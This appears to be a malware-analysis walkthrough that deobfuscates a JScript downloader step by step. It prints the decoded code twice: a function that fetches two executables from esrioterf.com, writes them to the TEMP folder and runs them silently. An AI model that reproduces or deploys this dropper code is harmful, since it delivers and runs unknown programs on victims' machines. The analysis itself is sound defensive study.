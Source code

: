         if (y.Item("a")=="t"){
            zaeoynlmc="yed";
        }else{
            zikeknrp=0;
        };         
        for (i=0;i<bauvnlxvy.length;i +=zikeknrp) {   
            dyixoonn=dyixoonn+bauvnlxvy[i];
        }   
        var zaeoynlmc="yedeyedvyedayedl"["split"](zaeoynlmc)["join"]("");     
        var tcrjwnxik=this[zaeoynlmc];   
        tcrjwnxik(dyixoonn);        //KgXeyWbMRu

The first few lines are just strings which get added together in `denqbimerb` and
then split again by in `bauvnlxvy`.

`r` obviously becomes `Scripting.Dictionary`

We know have some minor deobfuscation to do in that loop function:

        for (i=0;i<array.length; i+=3) {
            string=string+array[i]
        }

Doing this we get the output:

        function dl(fr, fn, rn){  var ws = new ActiveXObject("WScript.Shell");  var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + fn;  var xo = new ActiveXObject("MSXML2.XMLHTTP");  xo.onreadystatechange = function (){    if (xo.readyState === 4){      var xa = new ActiveXObject("ADODB.Stream");      xa.open();      xa.type = 1;      xa.write(xo.ResponseBody);      xa.position = 0;      xa.saveToFile(fn, 2);      xa.close();    }    ;  }  ;  try {    xo.open("GET", fr, false);    xo.send();    if (rn > 0){      ws.Run(fn, 0, 0);    }    ;  }  catch (er){  }  ;}dl("http://esrioterf.com/img/script.php?dcm1.jpg", "5574922.exe", 1);dl("http://esrioterf.com/img/script.php?dcm2.jpg", "3373115.exe", 1);

Let's clean this up:

            function dl(fr, fn, rn){ 
             var ws = new ActiveXObject("WScript.Shell"); 
             var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + fn;  
             var xo = new ActiveXObject("MSXML2.XMLHTTP");  
             xo.onreadystatechange = function (){   
                if (xo.readyState === 4){     
                     var xa = new ActiveXObject("ADODB.Stream");      
                     xa.open();      
                     xa.type = 1;      
                     xa.write(xo.ResponseBody);      
                     xa.position = 0;      
                     xa.saveToFile(fn, 2);      
                     xa.close();    
                };  
                };  
                try {    
                    xo.open("GET", fr, false);    
                    xo.send();    
                    if (rn > 0){      
                        ws.Run(fn, 0, 0);    
                    };  
                 }  catch (er){  
                 };
        }
        dl("http://esrioterf.com/img/script.php?dcm1.jpg", "5574922.exe", 1);dl("http://esrioterf.com/img/script.php?dcm2.jpg", "3373115.exe", 1);
        